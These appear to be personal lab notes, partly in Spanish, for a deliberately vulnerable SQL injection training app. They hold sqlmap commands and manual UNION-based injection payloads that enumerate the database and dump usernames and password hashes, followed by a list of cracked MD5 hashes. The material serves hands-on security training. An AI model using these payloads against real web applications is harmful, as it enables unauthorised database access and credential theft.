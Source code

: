 https://github.com/appsecco/sqlinjection-training-app

```bash
# -- AUTOMATED
docker-compose up -d
http://127.0.0.1:8000/
-> Reset database

sqlmap
-> open burpsuite
# in raw we can save the resquest selecting the option 'copy to file'

sqlmap -r request.req -p searchitem --batch
sqlmap -r request.req -p searchitem --batch --dbs # view databses
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables # view tables
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump

# .. MANUAL
ctrl + r # sent to repeater in burpsuite
searchitem=test' order by 9-- -- #in request.req. If error doesnt appears then thst the number of the columns

searchitem=test' union select 1,2,3,4,5-- --
searchitem=test' union select 1,2,database(),4,5-- -
searchitem=test' union select 1,2,schema_name,4,5 from information_schema.schemata-- -
searchitem=test' union select 1,2,table_name,4,5 from information_schema.tables where table_schema='sqlitraining' -- -
searchitem=test' union select 1,2,column_name,4,5 from information_schema.columns where table_schema='sqlitraining' and table_name='users' -- -
searchitem=test' union select 1,2,group_concat(username,0x3a,password),4,5 from users -- -
searchitem=test' union select 1,username,password,4,5 from users -- -

echo -n "21232f297a57a5a743894a0e4a801fc3" | wc -c # counting letters
cat sqlInjPass.txt | awk '{print $2}' FS=':' # take worrd after separator
# decrypt using hashes.com

21232f297a57a5a743894a0e4a801fc3:admin
5f4dcc3b5aa765d61d8327deb882cf99:password
856936b417f82c06139c74fa73b1abbe:horcrux
a55287e9d0b40429e5a944d10132c93e:hodor
c93239cae450631e9f55d71aed99e918:alice1
e52848c0eb863d96bc124737116f23a4:rhombus
9aeaed51f2b0f6680c4ed4b07fb1a83c:troll
f0f8820ee817181d9c6852a097d70d8d:frodo


```

## ENumeración del sistema
- Reconocimiento: Detectar un falla para elevar privilegios
